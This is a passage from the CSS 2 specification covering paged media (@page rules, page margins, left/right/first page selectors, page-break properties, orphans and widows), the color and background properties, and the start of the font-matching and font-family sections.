Authors can specify the margins of a page box inside an **@page** rule. An @page rule consists of the keyword "@page", followed by an optional page selector, followed by a block containing declarations and at-rules. Comments and white space are allowed, but optional, between the @page token and the page selector and between the page selector and the block. The declarations in an @page rule are said to be in the **page context**.

> **Note:** CSS level 2 has no at-rules that may appear inside @page, but such at-rules are expected to be defined in level 3.

The **page selector** specifies for which pages the declarations apply. In CSS 2, page selectors may designate the first page, all left pages, or all right pages

The rules for handling malformed declarations, malformed statements, and invalid at-rules inside @page are as defined in [section 4.2,](#css2:parsing-errors) with the following addition: when the UA expects the start of a declaration or at-rule (i.e., an IDENT token or an ATKEYWORD token) but finds an unexpected token instead, that token is considered to be the first token of a malformed declaration. I.e., the rule for malformed declarations, rather than malformed statements is used to determine which tokens to ignore in that case.

##### 13.2.1. Page margins {#css2:page-margins}

In CSS 2, only the [margin properties](#css2:margin-properties) (`margin-top`, `margin-right`, `margin-bottom`, `margin-left`, and `margin`) apply within the page context. The following diagram shows the relationships between the sheet, page box, and page margins:


> **Example:** Here is a simple example which sets all page margins on all pages:
>
> ```css
> @page {
>   margin: 3cm;
> }
> ```

The page context has no notion of fonts, so `em` and `ex` units are not allowed. Percentage values on the margin properties are relative to the dimensions of the [page box](#css2:page-box); for left and right margins, they refer to the width of the page box while for top and bottom margins, they refer to the height of the page box. All other units associated with the respective CSS 2 properties are allowed.

Due to negative margin values (either on the page box or on elements) or [absolute positioning](#css2:absolute-positioning) content may end up outside the page box, but this content may be "cut" — by the user agent, the printer, or ultimately, the paper cutter.

##### 13.2.2. Page selectors: selecting left, right, and first pages {#css2:page-selectors}

When printing double-sided documents, the [page boxes](#css2:page-box) on left and right pages may be different. This can be expressed through two CSS pseudo-classes that may be used in page selectors.

All pages are automatically classified by user agents into either the **:left** or **:right** pseudo-class. Whether the first page of a document is :left or :right depends on the major writing direction of the root element. For example, the first page of a document with a left-to-right major writing direction would be a :right page, and the first page of a document with a right-to-left major writing direction would be a :left page. To explicitly force a document to begin printing on a left or right page, authors can [insert a page break](#css2:page-break-props) before the first generated box.

> **Example:** ```css
> @page :left {
>   margin-left: 4cm;
>   margin-right: 3cm;
> }
>
> @page :right {
>   margin-left: 3cm;
>   margin-right: 4cm;
> }
> ```

If different declarations have been given for left and right pages, the user agent must honor these declarations even if the user agent does not transfer the page boxes to left and right sheets (e.g., a printer that only prints single-sided).

Authors may also specify style for the first page of a document with the **:first** pseudo-class:

> **Example:** ```css
> @page { margin: 2cm } /* All margins set to 2cm */
>
> @page :first {
>   margin-top: 10cm    /* Top margin on first page 10cm */
> }
> ```

Properties specified in a :left or :right @page rule override those specified in an @page rule that has no pseudo-class specified. Properties specified in a :first @page rule override those specified in :left or :right @page rules.

If a [forced break](#css2:forced) occurs before the first generated box, it is undefined in CSS 2 whether `:first` applies to the blank page before the break or to the page after it.

Margin declarations on left, right, and first pages may result in different page area widths. To simplify implementations, user agents may use a single page area width on left, right, and first pages. In this case, the page area width of the first page should be used.

##### 13.2.3.  Content outside the page box {#css2:outside-page-box}

When formatting content in the page model, some content may end up outside the current page box. For example, an element whose `white-space` property has the value `pre` may generate a box that is wider than the page box. As another example, when boxes are positioned absolutely or relatively, they may end up in "inconvenient" locations. For example, images may be placed on the edge of the page box or 100,000 meters below the page box.

The exact formatting of such elements lies outside the scope of this specification. However, we recommend that authors and user agents observe the following general principles concerning content outside the page box:

- Content should be allowed slightly beyond the page box to allow pages to "bleed".
- User agents should avoid generating a large number of empty page boxes to honor the positioning of elements (e.g., you do not want to print 100 blank pages).
- Authors should not position elements in inconvenient locations just to avoid rendering them.
- User agents may handle boxes positioned outside the page box in several ways, including discarding them or creating page boxes for them at the end of the document.

#### 13.3. Page breaks {#css2:page-breaks}

This section describes page breaks in CSS 2. Five properties indicate where the user agent may or should break pages, and on what page (left or right) the subsequent content should resume. Each page break ends layout in the current [page box](#css2:page-box) and causes remaining pieces of the document tree to be laid out in a new page box.

##### 13.3.1. Page break properties: `page-break-before`, `page-break-after`, `page-break-inside` {#css2:page-break-props}

| Field | Value |
| --- | --- |
| Name: | **page-break-before** |
| [Value:](#css-values-4:value-defs) | auto \| always \| avoid \| left \| right \| inherit |
| [Initial:](#css-cascade-6:initial-values) | auto |
| [Applies to:](#css-cascade-5:applies-to) | block-level elements (but see text) |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | as specified |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |
| Media: | visual, paged |

| Field | Value |
| --- | --- |
| Name: | **page-break-after** |
| [Value:](#css-values-4:value-defs) | auto \| always \| avoid \| left \| right \| inherit |
| [Initial:](#css-cascade-6:initial-values) | auto |
| [Applies to:](#css-cascade-5:applies-to) | block-level elements (but see text) |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | as specified |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |
| Media: | visual, paged |

| Field | Value |
| --- | --- |
| Name: | **page-break-inside** |
| [Value:](#css-values-4:value-defs) | avoid \| auto \| inherit |
| [Initial:](#css-cascade-6:initial-values) | auto |
| [Applies to:](#css-cascade-5:applies-to) | block-level elements (but see text) |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | as specified |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |
| Media: | visual, paged |

Values for these properties have the following meanings:

****auto****

: Neither force nor forbid a page break before (after, inside) the generated box.

****always****

: Always force a page break before (after) the generated box.

****avoid****

: Avoid a page break before (after, inside) the generated box.

****left****

: Force one or two page breaks before (after) the generated box so that the next page is formatted as a left page.

****right****

: Force one or two page breaks before (after) the generated box so that the next page is formatted as a right page.

A conforming user agent may interpret the values `left` and `right` as `always`.

A potential page break location is typically under the influence of the parent element’s `page-break-inside` property, the `page-break-after` property of the preceding element, and the `page-break-before` property of the following element. When these properties have values other than `auto`, the values `always`, `left`, and `right` take precedence over `avoid`.

User agents must apply these properties to block-level elements in the normal flow of the root element. User agents may also apply these properties to other elements, e.g., `table-row` elements.

When a page break splits a box, the box’s margins, borders, and padding have no visual effect where the split occurs.

##### 13.3.2. Breaks inside elements: `orphans`, `widows` {#css2:break-inside}

| Field | Value |
| --- | --- |
| Name: | **orphans** |
| [Value:](#css-values-4:value-defs) | `<integer>` \| inherit |
| [Initial:](#css-cascade-6:initial-values) | 2 |
| [Applies to:](#css-cascade-5:applies-to) | block container elements |
| [Inherited:](#css-cascade-5:inherited-property) | yes |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | as specified |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | by computed value type |
| Media: | visual, paged |

| Field | Value |
| --- | --- |
| Name: | **widows** |
| [Value:](#css-values-4:value-defs) | `<integer>` \| inherit |
| [Initial:](#css-cascade-6:initial-values) | 2 |
| [Applies to:](#css-cascade-5:applies-to) | block container elements |
| [Inherited:](#css-cascade-5:inherited-property) | yes |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | as specified |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | by computed value type |
| Media: | visual, paged |

The `orphans` property specifies the minimum number of lines in a block container that must be left at the bottom of a page. The `widows` property specifies the minimum number of lines in a block container that must be left at the top of a page. Examples of how they are used to control page breaks are given below.

Only positive values are allowed.

For information about paragraph formatting, please consult the section on line boxes.

##### 13.3.3. Allowed page breaks {#css2:allowed-page-breaks}

In the normal flow, page breaks can occur at the following places:

1. In the vertical margin between block-level boxes. When an unforced page break occurs here, the used values of the relevant `margin-top` and `margin-bottom` properties are set to `0`. When a forced page break occurs here, the used value of the relevant `margin-bottom` property is set to `0`; the relevant `margin-top` used value may either be set to `0` or retained.
2. Between line boxes inside a [block container](#css2:block-boxes) box.
3. Between the content edge of a block container box and the outer edges of its child content (margin edges of block-level children or line box edges for inline-level children) if there is a (non-zero) gap between them.

> **Note:** It is expected that CSS3 will specify that the relevant `margin-top` applies (i.e., is not set to `0`) after a forced page break.

These breaks are subject to the following rules:

- **Rule A:** Breaking at (1) is allowed only if the `page-break-after` and `page-break-before` properties of all the elements generating boxes that meet at this margin allow it, which is when at least one of them has the value `always`, `left`, or `right`, or when all of them are `auto`.
- **Rule B:** However, if all of them are `auto` and a common ancestor of all the elements has a `page-break-inside` value of `avoid`, then breaking here is not allowed.
- **Rule C:** Breaking at (2) is allowed only if the number of line boxes between the break and the start of the enclosing block box is the value of `orphans` or more, and the number of line boxes between the break and the end of the box is the value of `widows` or more.
- **Rule D:** In addition, breaking at (2) or (3) is allowed only if the `page-break-inside` property of the element and all its ancestors is `auto`.

If the above does not provide enough break points to keep content from overflowing the page boxes, then rules A, B and D are dropped in order to find additional breakpoints.

If that still does not lead to sufficient break points, rule C is dropped as well, to find still more break points.

##### 13.3.4. Forced page breaks {#css2:forced}

A page break *must* occur at (1) if, among the `page-break-after` and `page-break-before` properties of all the elements generating boxes that meet at this margin, there is at least one with the value `always`, `left`, or `right`.

##### 13.3.5. "Best" page breaks {#css2:best-page-breaks}

CSS 2 does *not* define which of a set of allowed page breaks must be used; CSS 2 does not forbid a user agent from breaking at every possible break point, or not to break at all. But CSS 2 does recommend that user agents observe the following heuristics (while recognizing that they are sometimes contradictory):

- Break as few times as possible.
- Make all pages that do not end with a forced break appear to have about the same height.
- Avoid breaking inside a replaced element.

> **Example:** Suppose, for example, that the style sheet contains 'orphans: 4', 'widows: 2', and there are 20 lines (line boxes) available at the bottom of the current page:
>
> - If a paragraph at the end of the current page contains 20 lines or fewer, it should be placed on the current page.
> - If the paragraph contains 21 or 22 lines, the second part of the paragraph must not violate the `widows` constraint, and so the second part must contain exactly two lines
> - If the paragraph contains 23 lines or more, the first part should contain 20 lines and the second part the remaining lines.
>
> Now suppose that `orphans` is `10`, `widows` is `20`, and there are 8 lines available at the bottom of the current page:
>
> - If a paragraph at the end of the current page contains 8 lines or fewer, it should be placed on the current page.
> - If the paragraph contains 9 lines or more, it cannot be split (that would violate the orphan constraint), so it should move as a block to the next page.

#### 13.4. Cascading in the page context {#css2:page-cascade}

Declarations in the page context obey the [cascade](#css2:assigning) just like normal CSS declarations.

> **Example:** Consider the following example:
>
> ```css
> @page {
>   margin-left: 3cm;
> }
>
> @page :left {
>   margin-left: 4cm;
> }
> ```
>
> Due to the [higher specificity](#css2:cascading-order) of the pseudo-class selector, the left margin on left pages will be `4cm` and all other pages (i.e., the right pages) will have a left margin of `3cm`.

### 14. Colors and Backgrounds {#css2:color-bg}

CSS properties allow authors to specify the foreground color and background of an element. Backgrounds may be colors or images. Background properties allow authors to position a background image, repeat it, and declare whether it should be fixed with respect to the [viewport](#css2:viewport) or scrolled along with the document.

See the section on [color units](#css2:color-units) for the syntax of valid color values.

#### 14.1. Foreground color: the `color` property {#css2:colors}

| Field | Value |
| --- | --- |
| Name: | **color** |
| [Value:](#css-values-4:value-defs) | `<color>` \| inherit |
| [Initial:](#css-cascade-6:initial-values) | depends on user agent |
| [Applies to:](#css-cascade-5:applies-to) | * |
| [Inherited:](#css-cascade-5:inherited-property) | yes |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | as specified |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | by computed value type |
| Media: | visual |

This property describes the foreground color of an element’s text content. There are different ways to specify red:

> **Example:** ```css
> em { color: red }              /* predefined color name */
> em { color: rgb(255,0,0) }     /* RGB range 0-255   */
> ```

#### 14.2. The background {#css2:background}

Authors may specify the background of an element (i.e., its rendering surface) as either a color or an image. In terms of the [box model](#css2:box-model), "background" refers to the background of the content, padding and border areas. Border colors and styles are set with the [border properties](#css2:border-properties). Margins are always transparent.

Background properties are not inherited, but the parent box’s background will shine through by default because of the initial `transparent` value on `background-color`.

The background of the root element becomes the background of the canvas and covers the entire canvas, anchored (for `background-position`) at the same point as it would be if it was painted only for the root element itself. The root element does not paint this background again.

For HTML documents, however, we recommend that authors specify the background for the BODY element rather than the HTML element. For documents whose root element is an HTML "HTML" element or an XHTML "html" element that has computed values of `transparent` for `background-color` and `none` for `background-image`, user agents must instead use the computed value of the background properties from that element’s first HTML "BODY" element or XHTML "body" element child when painting backgrounds for the canvas, and must not paint a background for that child element. Such backgrounds must also be anchored at the same point as they would be if they were painted only for the root element.

> **Example:** According to these rules, the canvas underlying the following HTML document will have a "marble" background:
>
> ```
> <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN">
>     <TITLE>Setting the canvas background</TITLE>
>     <STYLE type="text/css">
>        BODY { background: url("http://example.com/marble.png") }
>     </STYLE>
>     <P>My background is marble.
> ```
>
> Note that the rule for the BODY element will work even though the BODY tag has been omitted in the HTML source since the HTML parser will infer the missing tag.

Backgrounds of elements that form a stacking context (see the `z-index` property) are painted at the bottom of the element’s stacking context, below anything in that stacking context.

##### 14.2.1. Background properties: `background-color`, `background-image`, `background-repeat`, `background-attachment`, `background-position`, and `background` {#css2:background-properties}

| Field | Value |
| --- | --- |
| Name: | **background-color** |
| [Value:](#css-values-4:value-defs) | `<color>` \| transparent \| inherit |
| [Initial:](#css-cascade-6:initial-values) | transparent |
| [Applies to:](#css-cascade-5:applies-to) | * |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | as specified |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | by computed value type |
| Media: | visual |

This property sets the background color of an element, either a `<color>` value or the keyword `transparent`, to make the underlying colors shine through.

> **Example:** ```css
> h1 { background-color: #F00 }
> ```

| Field | Value |
| --- | --- |
| Name: | **background-image** |
| [Value:](#css-values-4:value-defs) | `<uri>` \| none \| inherit |
| [Initial:](#css-cascade-6:initial-values) | none |
| [Applies to:](#css-cascade-5:applies-to) | * |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | absolute URI or none |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |
| Media: | visual |

This property sets the background image of an element. When setting a background image, authors should also specify a background color that will be used when the image is unavailable. When the image is available, it is rendered on top of the background color. (Thus, the color is visible in the transparent parts of the image).

Values for this property are either **`<uri>`**, to specify the image, or **none**, when no image is used.

> **Example:** ```css
> body { background-image: url("marble.png") }
> p { background-image: none }
> ```

Intrinsic dimensions expressed as percentages must be resolved relative to the dimensions of the rectangle that establishes the coordinate system for the `background-position` property.

If the image has one of either an intrinsic width or an intrinsic height and an intrinsic aspect ratio, then the missing dimension is calculated from the given dimension and the ratio.

If the image has one of either an intrinsic width or an intrinsic height and no intrinsic aspect ratio, then the missing dimension is assumed to be the size of the rectangle that establishes the coordinate system for the `background-position` property.

If the image has no intrinsic dimensions and has an intrinsic ratio the dimensions must be assumed to be the largest dimensions at that ratio such that neither dimension exceeds the dimensions of the rectangle that establishes the coordinate system for the `background-position` property.

If the image has no intrinsic ratio either, then the dimensions must be assumed to be the rectangle that establishes the coordinate system for the `background-position` property.

| Field | Value |
| --- | --- |
| Name: | **background-repeat** |
| [Value:](#css-values-4:value-defs) | repeat \| repeat-x \| repeat-y \| no-repeat \| inherit |
| [Initial:](#css-cascade-6:initial-values) | repeat |
| [Applies to:](#css-cascade-5:applies-to) | * |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | as specified |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |
| Media: | visual |

If a background image is specified, this property specifies whether the image is repeated (tiled), and how. All tiling covers the content, padding and border areas of a box.

The tiling and positioning of the background-image on inline elements is undefined in this specification. A future level of CSS may define the tiling and positioning of the background-image on inline elements.

Values have the following meanings:

****repeat****

: The image is repeated both horizontally and vertically.

****repeat-x****

: The image is repeated horizontally only.

****repeat-y****

: The image is repeated vertically only.

****no-repeat****

: The image is not repeated: only one copy of the image is drawn.

> **Example:** ```css
> body {
>   background: white url("pendant.png");
>   background-repeat: repeat-y;
>   background-position: center;
> }
> ```
>
> 
>
> One copy of the background image is centered, and other copies are put above and below it to make a vertical band behind the element.

| Field | Value |
| --- | --- |
| Name: | **background-attachment** |
| [Value:](#css-values-4:value-defs) | scroll \| fixed \| inherit |
| [Initial:](#css-cascade-6:initial-values) | scroll |
| [Applies to:](#css-cascade-5:applies-to) | * |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | as specified |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |
| Media: | visual |

If a background image is specified, this property specifies whether it is fixed with regard to the [viewport](#css2:viewport) (**fixed**) or scrolls along with the containing block (**scroll**).

Note that there is only one viewport per view. If an element has a scrolling mechanism (see `overflow`), a `fixed` background does not move with the element, and a `scroll` background does not move with the scrolling mechanism.

Even if the image is fixed, it is still only visible when it is in the content, padding or border area of the element. Thus, unless the image is tiled ('background-repeat: repeat'), it may be invisible.

In paged media, where there is no viewport, a `fixed` background is fixed with respect to the page box and is therefore replicated on every page.

> **Example:** This example creates an infinite vertical band that remains "glued" to the viewport when the element is scrolled.
>
> ```css
> body {
>   background: red url("pendant.png");
>   background-repeat: repeat-y;
>   background-attachment: fixed;
> }
> ```

User agents that do not support `fixed` backgrounds (for example due to limitations of the hardware platform) should ignore declarations with the keyword `fixed`. For example:

```css
body {
  background: white url(paper.png) scroll; /* for all UAs */
  background: white url(ledger.png) fixed; /* for UAs that do fixed backgrounds */
}
```

See the section on [conformance](#css2:conformance) for details.

| Field | Value |
| --- | --- |
| Name: | **background-position** |
| [Value:](#css-values-4:value-defs) | [ [ `<percentage>` \| `<length>` \| left \| center \| right ] [ <percentage> \| <length> \| top \| center \| bottom ]? ] \| [ [ left \| center \| right ] \|\| [ top \| center \| bottom ] ] \| inherit |
| [Initial:](#css-cascade-6:initial-values) | 0% 0% |
| [Applies to:](#css-cascade-5:applies-to) | * |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | refer to the size of the box itself |
| [Computed value:](#css-cascade-6:computed) | for `<length>` the absolute value, otherwise a percentage |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | by computed value type |
| Media: | visual |

If a background image has been specified, this property specifies its initial position. If only one value is specified, the second value is assumed to be `center`. If at least one value is not a keyword, then the first value represents the horizontal position and the second represents the vertical position. Negative `<percentage>` and `<length>` values are allowed.

**`<percentage>`**

: A percentage X aligns the point X% across (for horizontal) or down (for vertical) the image with the point X% across (for horizontal) or down (for vertical) the element’s padding box. For example, with a value pair of '0% 0%',the upper left corner of the image is aligned with the upper left corner of the padding box. A value pair of '100% 100%' places the lower right corner of the image in the lower right corner of the padding box. With a value pair of '14% 84%', the point 14% across and 84% down the image is to be placed at the point 14% across and 84% down the padding box.

**`<length>`**

: A length L aligns the top left corner of the image a distance L to the right of (for horizontal) or below (for vertical) the top left corner of the element’s padding box. For example, with a value pair of '2cm 1cm', the upper left corner of the image is placed 2cm to the right and 1cm below the upper left corner of the padding box.

****top****

: Equivalent to `0%` for the vertical position.

****right****

: Equivalent to `100%` for the horizontal position.

****bottom****

: Equivalent to `100%` for the vertical position.

****left****

: Equivalent to `0%` for the horizontal position.

****center****

: Equivalent to `50%` for the horizontal position if it is not otherwise given, or `50%` for the vertical position if it is.

However, the position is undefined in CSS 2 if the image has an intrinsic ratio, but no intrinsic size.

> **Example:** ```css
> body { background: url("banner.jpeg") right top }    /* 100%   0% */
> body { background: url("banner.jpeg") top center }   /*  50%   0% */
> body { background: url("banner.jpeg") center }       /*  50%  50% */
> body { background: url("banner.jpeg") bottom }       /*  50% 100% */
> ```

The tiling and positioning of the background-image on inline elements is undefined in this specification. A future level of CSS may define the tiling and positioning of the background-image on inline elements.

If the background image is fixed within the viewport (see the `background-attachment` property), the image is placed relative to the viewport instead of the element’s padding box. For example,

> **Example:** ```css
> body {
>   background-image: url("logo.png");
>   background-attachment: fixed;
>   background-position: 100% 100%;
>   background-repeat: no-repeat;
> }
> ```
>
> In the example above, the (single) image is placed in the lower-right corner of the viewport.

| Field | Value |
| --- | --- |
| Name: | **background** |
| [Value:](#css-values-4:value-defs) | [`<'background-color'>` \|\| `<'background-image'>` \|\| `<'background-repeat'>` \|\| `<'background-attachment'>` \|\| `<'background-position'>`] \| inherit |
| [Initial:](#css-cascade-6:initial-values) | see individual properties |
| [Applies to:](#css-cascade-5:applies-to) | * |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | allowed on `background-position` |
| [Computed value:](#css-cascade-6:computed) | see individual properties |
| [Animation type:](#web-animations-1:animation-type) | see individual properties |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| Media: | visual |

The `background` property is a shorthand property for setting the individual background properties (i.e., `background-color`, `background-image`, `background-repeat`, `background-attachment` and `background-position`) at the same place in the style sheet.

Given a valid declaration, the `background` property first sets all the individual background properties to their initial values, then assigns explicit values given in the declaration.

> **Example:** In the first rule of the following example, only a value for `background-color` has been given and the other individual properties are set to their initial value. In the second rule, all individual properties have been specified.
>
> ```css
> BODY { background: red }
> P { background: url("chess.png") gray 50% repeat fixed }
> ```

### 15. Fonts {#css2:fonts}

#### 15.1. Introduction {#css2:fonts-intro}

Setting font properties will be among the most common uses of style sheets. Unfortunately, there exists no well-defined and universally accepted taxonomy for classifying fonts, and terms that apply to one font family may not be appropriate for others. E.g., `italic` is commonly used to label slanted text, but slanted text may also be labeled as being *Oblique, Slanted, Incline, Cursive* or *Kursiv*. Therefore it is not a simple problem to map typical font selection properties to a specific font.

#### 15.2. Font matching algorithm {#css2:algorithm}

Because there is no accepted, universal taxonomy of font properties, matching of properties to font faces must be done carefully. The properties are matched in a well-defined order to insure that the results of this matching process are as consistent as possible across UAs (assuming that the same library of font faces is presented to each of them).

1. The user agent makes (or accesses) a database of relevant CSS 2 properties of all the fonts of which the UA is aware. If there are two fonts with exactly the same properties, the user agent selects one of them.
2. At a given element and for each character in that element, the UA assembles the font properties applicable to that element. Using the complete set of properties, the UA uses the `font-family` property to choose a tentative font family. The remaining properties are tested against the family according to the matching criteria described with each property. If there are matches for all the remaining properties, then that is the matching font face for the given element or character.
3. If there is no matching font face within the `font-family` being processed by step 2, and if there is a next alternative `font-family` in the font set, then repeat step 2 with the next alternative `font-family`.
4. If there is a matching font face, but it does not contain a glyph for the current character, and if there is a next alternative `font-family` in the font sets, then repeat step 2 with the next alternative `font-family`.
5. If there is no font within the family selected in 2, then use a UA-dependent default `font-family` and repeat step 2, using the best match that can be obtained within the default font. If a particular character cannot be displayed using this font, then the UA may use other means to determine a suitable font for that character. The UA should map each character for which it has no suitable font to a visible symbol chosen by the UA, preferably a "missing character" glyph from one of the font faces available to the UA.

(The above algorithm can be optimized to avoid having to revisit the CSS 2 properties for each character.)

The per-property matching rules from (2) above are as follows:

1. `font-style` is tried first. `italic` will be satisfied if there is either a face in the UA’s font database labeled with the CSS keyword `italic` (preferred) or `oblique`. Otherwise the values must be matched exactly or font-style will fail.
2. `font-variant` is tried next. `small-caps` matches (1) a font labeled as `small-caps`, (2) a font in which the small caps are synthesized, or (3) a font where all lowercase letters are replaced by uppercase letters. A small-caps font may be synthesized by electronically scaling uppercase letters from a normal font. `normal` matches a font’s normal (non-small-caps) variant. A font cannot fail to have a normal variant. A font that is only available as small-caps shall be selectable as either a `normal` face or a `small-caps` face.
3. `font-weight` is matched next, it will never fail. (See `font-weight` below.)
4. `font-size` must be matched within a UA-dependent margin of tolerance. (Typically, sizes for scalable fonts are rounded to the nearest whole pixel, while the tolerance for bitmapped fonts could be as large as 20%.) Further computations, e.g., by `em` values in other properties, are based on the computed value of `font-size`.

#### 15.3. Font family: the `font-family` property {#css2:font-family-prop}

| Field | Value |
| --- | --- |
| Name: | **font-family** |
| [Value:](#css-values-4:value-defs) | [ [ `<family-name>` \| `<generic-family>` ] [, <family-name> \| <generic-family>]* ] \| inherit |
| [Initial:](#css-cascade-6:initial-values) | depends on user agent |
| [Applies to:](#css-cascade-5:applies-to) | * |
| [Inherited:](#css-cascade-5:inherited-property) | yes |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | as specified |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |
| Media: | visual |

The property value is a prioritized list of font family names and/or [generic family names.](#css2:generic-font-families) Unlike most other CSS properties, component values are separated by a comma to indicate that they are alternatives:

```css
body { font-family: Gill, Helvetica, sans-serif }
```

Although many fonts provide the "missing character" glyph, typically an open box, as its name implies this should not be considered a match for characters that cannot be found in the font. (It should, however, be considered a match for U+FFFD, the "missing character" character’s code point).

There are two types of font family names:

****<family-name>****

: The name of a font family of choice. In the last example, "Gill" and "Helvetica" are font families.

****<generic-family>****

: In the example above, the last value is a generic family name. The following generic families are defined:

  - **serif** (e.g., Times)
  - **sans-serif** (e.g., Helvetica)
  - **cursive** (e.g., Zapf-Chancery)
  - **fantasy** (e.g., Western)
  - **monospace** (e.g., Courier)

  Style sheet designers are encouraged to offer a generic font family as a last alternative. Generic font family names are keywords and must NOT be quoted.

Font family names must either be given quoted as [strings,](#css2:strings) or unquoted as a sequence of one or more identifiers. This means most punctuation characters and digits at the start of each token must be escaped in unquoted font family names.

For example, the following declarations are invalid:

```
font-family: Red/Black, sans-serif;
font-family: "Lucida" Grande, sans-serif;
font-family: Ahem!, sans-serif;
font-family: test@foo, sans-serif;
font-family: #POUND, sans-serif;
font-family: Hawaii 5-0, sans-serif;
```

If a sequence of identifiers is given as a font family name, the computed value is the name converted to a string by joining all the identifiers in the sequence by single spaces.

To avoid mistakes in escaping, it is recommended to quote font family names that contain white space, digits, or punctuation characters other than hyphens:

```
body { font-family: "New Century Schoolbook", serif }

<BODY STYLE="font-family: '21st Century', fantasy">
```

Font family *names* that happen to be the same as a keyword value (`inherit`, `serif`, `sans-serif`, `monospace`, `fantasy`, and `cursive`) must be quoted to prevent confusion with the keywords with the same names. The keywords `initial` and `default` are reserved for future use and must also be quoted when used as font names. UAs must not consider these keywords as matching the `<family-name>` type.

##### 15.3.1. Generic font families {#css2:generic-font-families}

Generic font families are a fallback mechanism, a means of preserving some of the style sheet author’s intent in the worst case when none of the specified fonts can be selected. For optimum typographic control, particular named fonts should be used in style sheets.

All five generic font families are defined to exist in all CSS implementations (they need not necessarily map to five distinct actual fonts). User agents should provide reasonable default choices for the generic font families, which express the characteristics of each family as well as possible within the limits allowed by the underlying technology.

User agents are encouraged to allow users to select alternative choices for the generic fonts.

###### 15.3.1.1. **serif** {#css2:serif}

Glyphs of serif fonts, as the term is used in CSS, tend to have finishing strokes, flared or tapering ends, or have actual serifed endings (including slab serifs). Serif fonts are typically proportionately-spaced. They often display a greater variation between thick and thin strokes than fonts from the `sans-serif` generic font family. CSS uses the term `serif` to apply to a font for any script, although other names may be more familiar for particular scripts, such as Mincho (Japanese), Sung or Song (Chinese), Totum or Kodig (Korean). Any font that is so described may be used to represent the generic `serif` family.

Examples of fonts that fit this description include:

| Latin fonts | Times New Roman, Bodoni, Garamond, Minion Web, ITC Stone Serif, MS Georgia, Bitstream Cyberbit |
| --- | --- |
| Greek fonts | Bitstream Cyberbit |
| Cyrillic fonts | Adobe Minion Cyrillic, Excelsior Cyrillic Upright, Monotype Albion 70, Bitstream Cyberbit, ER Bukinist |
| Hebrew fonts | New Peninim, Raanana, Bitstream Cyberbit |
| Japanese fonts | Ryumin Light-KL, Kyokasho ICA, Futo Min A101 |
| Arabic fonts | Bitstream Cyberbit |
| Cherokee fonts | Lo Cicero Cherokee |

###### 15.3.1.2.  **sans-serif** {#css2:sans-serif}

Glyphs in sans-serif fonts, as the term is used in CSS, tend to have stroke endings that are plain -- with little or no flaring, cross stroke, or other ornamentation. Sans-serif fonts are typically proportionately-spaced. They often have little variation between thick and thin strokes, compared to fonts from the `serif` family. CSS uses the term `sans-serif` to apply to a font for any script, although other names may be more familiar for particular scripts, such as Gothic (Japanese), Kai (Chinese), or Pathang (Korean). Any font that is so described may be used to represent the generic `sans-serif` family.

Examples of fonts that fit this description include:

| Latin fonts | MS Trebuchet, ITC Avant Garde Gothic, MS Arial, MS Verdana, Univers, Futura, ITC Stone Sans, Gill Sans, Akzidenz Grotesk, Helvetica |
| --- | --- |
| Greek fonts | Attika, Typiko New Era, MS Tahoma, Monotype Gill Sans 571, Helvetica Greek |
| Cyrillic fonts | Helvetica Cyrillic, ER Univers, Lucida Sans Unicode, Bastion |
| Hebrew fonts | Arial Hebrew, MS Tahoma |
| Japanese fonts | Shin Go, Heisei Kaku Gothic W5 |
| Arabic fonts | MS Tahoma |

###### 15.3.1.3.  **cursive** {#css2:cursive}

